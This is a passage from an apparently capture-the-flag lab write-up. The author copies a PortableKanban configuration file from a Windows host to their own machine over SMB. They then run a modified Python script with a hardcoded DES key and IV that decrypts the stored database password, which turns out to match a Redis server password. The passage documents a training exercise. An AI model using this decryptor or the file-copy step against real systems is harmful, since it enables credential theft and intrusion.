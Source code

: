 ```

```

Copying the Configuration file `PortableKanban.cfg` to our Kali Machine
```
C:\Users\jason\Downloads\PortableKanban>copy PortableKanban.cfg \\10.10.14.4\a
copy PortableKanban.cfg \\10.10.14.4\a
        1 file(s) copied.
```
Looking at the Configuration file, We got the encrypted password.
```
"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
```
Using the Exploit we found earlier, we can try to decrypt the above password but first I need to make changes. 
Modifying the above script
```
import json
import base64
from des import * #python3 -m pip install des
import sys

try:
        path = sys.argv[1]
except:
        exit("Supply path to PortableKanban.pk3 as argv1")

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(f'Decrypted Password: {decode(sys.argv[1])}')

```

Running the above script gave us the decrypted password
```
┌──(venv)─(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# python3 Decrypt_Kanban.py "Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
Decrypted Password: kidvscat_yes_kidvscat
```

looking at the password, it is the same database password that we can see in the following REDIS Server configuration file.
```
PS C:\Program Files\Redis> Get-Content redis.windows.conf | Where-Object { $_ -notmatch '^\s*#' -and $_ -ne '' }

requirepass kidvscat_yes_kidvscat
port 6379
...
dbfilename dump.rdb
```
